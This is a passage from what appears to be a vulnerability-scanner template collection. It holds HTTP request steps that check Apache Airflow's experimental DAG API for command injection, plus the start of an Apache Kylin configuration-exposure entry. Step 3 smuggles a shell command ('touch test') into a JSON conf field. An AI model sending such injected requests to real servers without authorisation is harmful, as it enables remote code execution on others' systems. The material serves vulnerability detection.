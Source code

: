 ### Step - 3

```
POST /api/experimental/dags/example_trigger_target_dag/dag_runs HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: application/json

{"conf": {"message": "\"; touch test #"}}

```

### Step - 4

```
GET /api/experimental/dags/example_trigger_target_dag/dag_runs/{{exec_date}}/tasks/bash_task HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_4, "operator":"BashOperator")
  2. contains(all_headers_4, "application/json")
- condition - and

### Extractors

**Type - regex**

- name - exec_date
- part - body
- group - 1
- internal - True
- regex
  1. "execution_date":"([0-9-A-Z:+]+)"

---

# Apache Kylin - Exposed Configuration File

## Description

- Apache Kylin 2.0.0, 2.1.0, 2.2.0, 2.3.0, 2.3.1, 2.3.2, 2.4.0, 2.4.1, 2.5.0, 2.5.1, 2.5.2, 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6, 3.0.0-alpha, 3.0.0-alpha2, 3.0.0-beta, 3.0.0, 3.0.1, 3.0.2, 3.1.0, 4.0.0-alpha have one REST API which exposed Kylin's configuration information without authentication.
- severity - medium
- tags - cve,cve2020,apache
